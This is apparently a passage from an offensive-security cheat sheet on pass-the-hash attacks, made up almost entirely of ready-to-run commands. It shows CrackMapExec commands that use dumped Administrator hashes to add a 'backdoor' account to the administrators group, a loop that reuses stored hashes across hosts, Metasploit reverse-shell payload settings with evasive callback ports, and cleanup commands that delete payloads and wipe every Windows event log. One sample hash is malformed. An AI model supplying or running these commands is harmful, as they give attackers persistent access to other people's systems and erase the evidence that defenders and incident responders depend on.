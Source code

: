 ### Scenario 2: Persistence Maintenance

```bash
# Even if original exploit is patched, maintain access via PtH
# Original vulnerability: MS17-010 (patched)
# Maintain access via PtH with dumped hashes
crackmapexec smb <target_ip> -u Administrator -H <hash> -x "net user backdoor Password123! /add"
crackmapexec smb <target_ip> -u Administrator -H <hash> -x "net localgroup administrators backdoor /add"
```

## Hash Management

### Organizing Captured Hashes

```bash
# Create hash database
echo "192.168.1.100:Administrator:32ED87BDB5FDC5E9CBA88547376818D4" >> hashes.txt
echo "192.168.1.101:DomainAdmin:A45B2E1E5F3C8D7E9F1A2B3C4D5E6F7G8" >> hashes.txt

# Use with automation scripts
while IFS=: read -r ip user hash; do
    crackmapexec smb $ip -u $user -H $hash -x "whoami"
done < hashes.txt
```

### Hash Verification

```bash
# Test hash validity before full exploitation
crackmapexec smb <target_ip> -u <user> -H <hash> --local-auth -x "echo Success"
```

## Defense Evasion Techniques

### Obfuscation Methods

```bash
# Use different ports for callbacks
set LPORT 8443
set LPORT 5353
set LPORT 4433

# Use common service names for payloads
set payload windows/meterpreter/reverse_tcp
set PayloadUUIDName https
```

### Cleanup Procedures

```bash
# Remove uploaded files
crackmapexec smb <target_ip> -u Administrator -H <hash> -x "del C:\\windows\\temp\\payload.exe"

# Clear event logs
crackmapexec smb <target_ip> -u Administrator -H <hash> -x "wevtutil el | foreach {wevtutil cl $_}"
```

